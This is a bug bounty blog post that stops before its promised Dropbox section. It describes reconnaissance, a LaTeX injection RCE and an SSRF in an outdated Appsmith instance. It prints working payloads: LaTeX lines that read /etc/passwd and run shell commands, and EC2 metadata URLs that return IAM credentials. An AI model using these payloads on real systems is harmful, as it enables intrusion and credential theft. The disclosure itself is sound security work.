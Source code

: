 ```yaml
---
title: RCE,SSRF-to-EC2takeover and dropbox account takeover
published: true
---
```


### Description
So in this Blog post i will walk you through some of high severity issues i found in one of the Public Program. This was a company which was providing lots of SAAS applications. During this period I found several issues like IDOR on unauth API,HTMLI and many medium severity issue but I will mostly be talking about some of the interesting issue i found during this period.

### Inital Recon
I don't recon much initally and I will definitely improve my recon soon,even during recon phase i don't automate stuffs, I don't use nuclie either most of the time(sometimes running nuclie can really give you fruitful result but i don't always do), sometimes i also use gauplus to find some url. 
so, I always start of with subdomain enumeration.First i find some doamin from subfinder then i bruteforce to find some non listed sub-domain using ffuf.

```
root@x71n0:~$ subfinder -d xxx.com | httpx --status-code
```
I grep subdomains from here first then I use ffuf to bruteforce some new domains
```
root@x71n0:~$ ffuf -u https://FUZZ.xxxx.com -w bruteforcelist.txt -ac -mc 200,302,403
```
sometimes i use this fancy crawling tools like Katana to crawl from JS file(I usually look for vulnerable functions or secrets in JS file), I will talk about finding cloud assets when I talk about the **DropBox takeover** and I will talk about how i use Shodan when talking about the **SSRF**.

###  Finding my first ever RCE with LaTex injection

LaTeX is a document preparation system for high-quality typesetting. It is most often used for medium-to-large technical or scientific documents but it can be used for almost any form of publishing.LaTeX is based on the idea that it is better to leave document design to document designers, and to let authors get on with writing documents. So, in LaTeX you would input this document as:
```
\documentclass{article}
\title{Cartesian closed categories and the price of eggs}
\author{Jane Doe}
\date{September 1994}
\begin{document}
   \maketitle
   Hello world!
\end{document}

OUTPUT:

    This document is an article.
    Its title is Cartesian closed categories and the price of eggs.
    Its author is Jane Doe.
    It was written in September 1994.
    The document consists of a title followed by the text Hello world!

```
learn more about LaTex [Here](https://www.latex-project.org/about/)
So i found a subdomain **https://doctex.proc.xxx.com**, this application had many feature like managing team,importing CSV file,PPT,DOC,TEX,XLSX.when ever i see XlSX first i always try XXE, so as always i tried but this didn't work next i had no idea what is this tex file so i tried learning about latex, while reading a blog post on medium i found a article that talks about RCE with latex injection. I started reading about it and i found this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) which had payload of latex injection. 
The application was providing sample .tex file, i downloaded and this extra payload lines in the end.
```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```
when i opened the converted pdf file,half of Documents was processed properly but more than half part of the document became white, next i saw payload which was encoding the response to base64
```
\input|ls|base64
```
this throwed a huge base64 data in the exported pdf and i decoded the base64 and it had response of my **ls** command. I tried some other command with base64
encoded and it worked. 

After reading about LaTex for sometime i found out that LaTeX does provide powerful programming features, so application should use industry-standard containerization and virtualization technologies to isolate your project from other projects on the same server.So, this is the end of RCE, next lets talk about the SSRF to EC2 takeover.

###  SSRF to EC2 takeover
Here I will also talk about how i found this IP with shodan and how i proceeded further. I couldn't find much stuffs then i went to shodan and searched for this on search-bar
```
Ssl.cert.subject.CN:"domain.com" 200
```
I found several IP,so Initially started with port scan and i confirmed that the IP belongs to org by checking the CNAME records. I saw that APPSMITH was running on 443 with a version released 9 months ago. I recently read blogpost about a ssrf in Appsmith by DNS rebinding [CVE-2022-4096](https://basu-banakar.medium.com/ssrf-via-dns-rebinding-cve-2022-4096-b7bf75928bb2), This application was using very old version of APPsmith so there was no need of DNS rebinding. 
So initially i saw the registration was allowed, the url looked like this ( https://192.168.143.12/user/login), i created a account and there was no verification needed.
next i clicked on my first app, added data source and clicked on create new API next added this to url and clicekd on run
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
this throwed available role
http://169.254.169.254/latest/meta-data/iam/security-credentials/role
this throwed temporary acess credential
```
![]([https://drive.google.com/file/d/1BEu2Ka4BWAnwulFunjv11OdhSZ5Rpcxd/view](https://preview.redd.it/snsuplzu2h2a1.png?width=785&format=png&auto=webp&s=144f8dd5e27630a56bd3f2fd0d900ca37d4263e2)
now,lets move to the last part.
